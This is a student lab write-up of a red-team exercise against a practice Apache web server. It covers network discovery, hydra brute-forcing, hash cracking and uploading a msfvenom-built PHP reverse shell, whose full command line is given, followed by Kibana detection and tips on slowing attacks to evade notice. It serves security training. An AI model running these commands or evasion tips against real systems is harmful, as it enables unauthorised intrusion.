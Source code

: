 # "How do you plan and execute an effective offensive engagement?"

### 1.  Restate the Problem

An effective offensive engagement has to determine vulnerabilities and exploit them.  Through this project, I was able to do just that. Unfortunately, the techniques used were easily logged to an ELK server where the target could see such an attack occurred and mitigate the damage as well as take that experience to harden their system from future similar attacks.

### 2.  Provide a Concrete Example Scenario

    -   In Project 2, which VMs were on the network? What was the purpose of each?
    -   Which of these VMs did you have to infiltrate?
    -   What was your goal in infiltrating each VM?
    -   Which tools did you use to perform the infiltration?
    -   What kinds of security measures, if any, were enabled on the network?


We had three virtual machines in this Red Team offensive against the Capstone Web Server. The attacker used a Kali Linux VM. The target was also running Linux as a web server.  The third virtual machine, running Linux, served as the ELK machine and sent data through Filebeat, Metricbeat, and Packetbeat to the Kibana SIEM interface to track and find events, including access to the web server by what should have been the unauthorized Kali VM.

One main goal of infiltrating the Capstone Web Server VM was gaining access and controlling the webserver through Metasploit. Metasploit is an integral tool for pentesters to enumerate networks, test security vulnerabilities, execute attacks, and evade detection. Inside Metasploit is a suite of tools that help a penetration tester scan and access its targets.

Since this was a project used to gain experience with infiltrating and then collecting data about that infiltration of the web server, there weren’t many security measures on the Capstone Web Server VM.  A Nmap scan revealed that only two ports were technically open, SSH and HTTP, but both are capable of being exploited. One could say simply having the Capstone Web Server sending information to Kibana provides some security as Kibana can provide valuable information about things like port scans and PUT requests of reverse shell scripts, but that does not prevent such things from happening.


### 3.  Explain the Solution Requirements

    -   How did you identify your targets?
    -   How did you identify vulnerabilities in each target, and which did you exploit?
    -   What did you do after infiltrating?
    
First, to identify the targets, I used the Kali Linux machine command line and ran ```netdiscover -r 192.168.1.255/16``` to see what other machines were on the network. This revealed three machines. The Remote Desktop used to run Hyper-V where the offensive would occur between the Kali Linux and the Webserver listed as 192.168.1.1. I also could see the ELK VM located at 192.168.1.100. Finally, I could see the Web Server at its IP location, 192.168.1.105. 
 
I then ran ```nmap -sS -A 192.168.1.105``` to get more information about the Capstone Web Server, which revealed that the web server had both ssh and http open and that the web server was running outdated Apache httpd 2.4.29. I could also see that the files were unencrypted and viewable.
 

Running ```firefox http://192.168.1.105``` opened the firefox browser, and I could then, since the directories were publicly available and unencrypted through http, begin reconnaissance work.


### 4.  Explain the Solution Details

    -   Which tools and commands did you use to identify your targets and their vulnerabilities?
    -   Which exploits did you use against these vulnerabilities, and how did you deliver them?
    -   How did you achieve your goal after infiltration?

Surveillance on the Capstone Web Server revealed user names and “secret” folders, and hydra was used to brute force passwords for the users that had rights to access the secret folder and its contents.

Not only that, but once inside the secret folder, another user’s hashed password was available.  This hash was easily cracked on crackstation.net. With those credentials, I could have full access to the web server’s WebDAV directory.

The WebDAV directory was not hardened to prevent uploads, and I then created a reverse shell script with the help of mfsvenom (```msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.1.90 LPORT=4040 -f raw > rev-shell-2.php ```) that then was uploaded.

Once I loaded the .php reverse shell script, I accessed the Web Server machine through that “backdoor.” Running ```msfconsole``` and connecting through meterpreter was the mode I used to further search and exploit the Capstone Web Server.

### 5.  Identify Advantages and Disadvantages of the Solution

    -   Were your methods covert or detectable by monitoring solutions?

    -   How could you achieve your goal with greater stealth?

Unfortunately, when acting as a Blue Team defensive agent and using Kibana, it became apparent that these exploits were very easily detected with the data collected through Packetbeat and Filebeat. The Kibana SIEM interface has many visual cues, as well, that even if no alerts were pre-determined, it would be obvious that there is an increase in traffic. That increase in traffic usually indicates a dynamic offense against the VM being observed.

One way to do this using these same methods without easily being caught would be to slow the offense down.  If it were slowed way down, mainly when the brute force attack occurred and when the Port Scan occurred, the increase in traffic would not have been as noticeable.




